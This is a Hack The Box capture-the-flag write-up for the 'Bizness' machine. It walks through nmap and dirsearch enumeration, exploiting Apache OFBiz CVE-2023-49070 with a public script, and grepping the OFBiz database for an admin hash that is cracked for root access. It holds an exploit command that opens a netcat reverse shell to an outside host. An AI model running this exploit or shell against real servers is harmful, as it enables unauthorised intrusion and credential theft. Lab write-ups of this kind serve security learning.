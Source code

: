 ```yaml
---
title:  HTB - Bizness
date: 2024-08-13 12:17:34 -0400
categories: [hackthebox , Bizness]
tags: [hackthebox, Apache, OFBiz,dirsearch,nmap,cracking,enumeration,hashcat,htb-bizness,ctf,CVE-2023-49070,linux]
image:
  path: /assets/img/post/bizness.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Bizness.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 06 Jan, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
nmap -p- --min-rate 5000 -n -sS -vvv -Pn 10.10.11.252 -oG allports
nmap -sCV -p 22,80,443,40117 10.10.11.252 -oN targeted
```

![Image](/assets/img/post/bizness1.png)

## Add the domain to /etc/hosts 

```bash
echo "10.10.11.252 bizness.htb | sudo tee -a /etc/hosts/
```
![Image](/assets/img/post/bizness2.png)

## Brute Force Directory

```bash
dirsearch -u http://bizness.htb/
```
![Image](/assets/img/post/bizness3.png)

## OFBiz

The website is using a technology called `OFBiz` with version `18.12`, the current version is out date.

![Image](/assets/img/post/bizness4.png)

## Apache OFBiz 18.12 CVE-2023-49070

![Image](/assets/img/post/Bizness5.png)

[***Apache-OFBiz-Authentication-Bypass***](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

We used the exploit to authenticate ourselves.

```bash
python3 exploit.py --url  https://bizness.htb:443 --cmd 'nc -e /bin/bash 10.10.14.16 7777'
```

```bash
nc -lvnp 7777
```

![Image](/assets/img/post/bizness6.png)

## Enumeration linux

Before launching this search, I found a location where the OFBiz folder was located and performed searches that contain admin.
I searched recursively using grep, using options like -Rail, and to specify the word I used -e.

```shell
grep -Rail -e 'admin$' /top/ofbiz/runtime/data/derby/ofbiz/seg0
```

![Image](/assets/img/post/bizness7.png)

We came across a lot of data, so we have to go through each one by one.

We find a user and the hash

![Image](/assets/img/post/bizness8.png)

## Cracking Hash

We will use the Go hash matcher script to crack the password.

[**Go-Hash-Matcher**](https://github.com/IamLucif3r/Go-Hash-Matcher?source=post_page-----68713a41f98b--------------------------------)

![Image](/assets/img/post/bizness9.png)

Once we have the password, we log in at the `root` 

![Image](/assets/img/post/bizness10.png)